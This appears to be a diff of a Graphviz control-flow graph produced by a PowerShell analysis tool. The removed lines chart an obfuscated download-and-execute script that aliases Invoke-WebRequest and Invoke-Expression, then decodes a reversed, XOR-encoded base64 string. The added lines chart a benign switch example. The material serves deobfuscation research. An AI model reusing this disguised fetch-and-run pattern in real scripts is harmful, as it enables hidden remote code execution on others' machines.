

digraph G {
    rankdir=TB;
    node [
        fontname="Consolas"
        shape=box
        width=0
        height=0
        margin="0.2,0.1"
        fontsize=10
    ];
    edge [fontname="Arial", arrowhead=vee, fontsize=9];

    // Nodes
    1 [label="Id 1\lStart\lScript Start", shape=oval];
    2 [label="Id 2\lEnd\lScript End", shape=oval];
    3 [label="Id 3\lMainStart\lMain Script", shape=box];
    4 [label="Id 4\lMainEnd\lEnd Main Script", shape=box];
-     5 [label="Id 5\lPipelineElement\lSet-Alias -name input -val Invoke-WebRequest\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     6 [label="Id 6\lPipelineElement\lSet-Alias -name output -val Invoke-Expression\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     7 [label="Id 7\lAssignmentStatementAst\l$a = \"RM0RAZ0QVMxED1BHKIFRXpgSDtAQRZFRVpgCfYVV...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     8 [label="Id 8\lPipelineElement\l[aRRaY]::reVErse($a)\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     9 [label="Id 9\lAssignmentStatementAst\l$b = [sYstEM.CoNveRt]::froMbasE64strING($a...\l[RESOLVABLE: 2]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     10 [label="Id 10\lLoopStart\lfor ($x = 0; $x -lt $b.Count; $x++)", shape=box];
-     11 [label="Id 11\lForInit\l$x = 0", shape=box];
-     12 [label="Id 12\lCondition\l[bool]($x -lt $b.Count)\l[RESOLVABLE: 2]", shape=diamond, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     13 [label="Id 13\lLoopEnd\lEnd For", shape=box];
-     14 [label="Id 14\lForIter\l$x++\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     15 [label="Id 15\lAssignmentStatementAst\l${B}[${x}] = ${B}[${X}] -bxor 37\l[RESOLVABLE: 3]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     16 [label="Id 16\lPipelineElement\lWrite-Host \"xxx\"\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     17 [label="Id 17\lAssignmentStatementAst\l$c = (input ([sySteM.tExt.EncOding]::UTF8.GetSt...\l[RESOLVABLE: 6]\l[ALIAS: input->Invoke-WebRequest]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     18 [label="Id 18\lPipelineElement\loutput $c\l[RESOLVABLE: 1]\l[ALIAS: output->Invoke-Expression]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+     5 [label="Id 5\lSwitchStart\lswitch (1, 2, 3, 4, 5)", shape=box];
+     6 [label="Id 6\lSwitchInit\l$__sw_ae5f91e6c73c = @(1, 2, 3, 4, 5); $__sw_ae...", shape=box];
+     7 [label="Id 7\lSwitchCondition\l[bool]($__sw_ae5f91e6c73c_idx -lt $__sw_ae5f91e...", shape=box];
+     8 [label="Id 8\lSwitchEnd\lEnd Switch", shape=box];
+     9 [label="Id 9\lSwitchBind\l$__sw_ae5f91e6c73c_current = $__sw_ae5f91e6c73c...", shape=box];
+     10 [label="Id 10\lSwitchIter\l$__sw_ae5f91e6c73c_idx++", shape=box];
+     11 [label="Id 11\lCaseCondition\l[bool]($__sw_ae5f91e6c73c_current -eq 1)", shape=box];
+     12 [label="Id 12\lPipelineElement\l\"one\"", shape=box];
+     13 [label="Id 13\lCaseCondition\l[bool]($__sw_ae5f91e6c73c_current -eq 2)", shape=box];
+     14 [label="Id 14\lPipelineElement\l\"two\"", shape=box];
+     15 [label="Id 15\lExit\lexit", shape=box];
+     16 [label="Id 16\lCaseCondition\l[bool]($__sw_ae5f91e6c73c_current -eq 3)", shape=box];
+     17 [label="Id 17\lPipelineElement\l\"three\"", shape=box];
+     18 [label="Id 18\lReturn\lreturn", shape=box];
+     19 [label="Id 19\lCaseCondition\l[bool]($__sw_ae5f91e6c73c_current -eq 4)", shape=box];
+     20 [label="Id 20\lPipelineElement\l\"four\"", shape=box];
+     21 [label="Id 21\lCaseCondition\l[bool]($__sw_ae5f91e6c73c_current -eq 5)", shape=box];
+     22 [label="Id 22\lPipelineElement\l\"five\"", shape=box];

    // Edges
    1 -> 3;
    3 -> 5;
    5 -> 6;
    6 -> 7;
-     7 -> 8;
-     8 -> 9;
-     9 -> 10;
-     10 -> 11;
-     11 -> 12;
-     12 -> 15 [label="True"];
-     15 -> 14;
-     14 -> 12;
-     12 -> 13 [label="False"];
-     13 -> 16;
-     16 -> 17;
+     7 -> 8 [label="False"];
+     7 -> 9 [label="True"];
+     10 -> 7;
+     9 -> 11;
+     11 -> 12 [label="True"];
+     11 -> 13 [label="False"];
+     12 -> 13;
+     13 -> 14 [label="True"];
+     14 -> 15;
+     15 -> 2 [label="Exit"];
+     13 -> 16 [label="False"];
+     16 -> 17 [label="True"];
    17 -> 18;
-     18 -> 4;
+     18 -> 4 [label="Return"];
+     16 -> 19 [label="False"];
+     19 -> 20 [label="True"];
+     19 -> 21 [label="False"];
+     20 -> 21;
+     21 -> 22 [label="True"];
+     21 -> 10 [label="False"];
+     22 -> 10;
+     8 -> 4;
    4 -> 2;
}